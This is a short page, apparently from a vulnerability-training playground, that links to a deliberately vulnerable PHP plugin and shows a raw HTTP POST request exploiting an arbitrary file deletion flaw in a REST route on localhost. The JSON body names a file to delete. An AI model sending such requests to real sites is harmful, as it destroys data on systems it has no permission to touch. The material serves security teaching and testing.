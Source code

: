 # Arbitrary File Deletion

https://github.com/patchstack/vulnerability-playground/blob/main/afd/init.php

```http
POST /index.php?rest_route=/myplugin/v1/deletemedia HTTP/1.1
Host: 127.0.0.1:8080
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.86 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Cookie: [...TRUNCATED...]
Connection: keep-alive
Content-Length: 28

{"media":{"file":"poc.txt"}}
```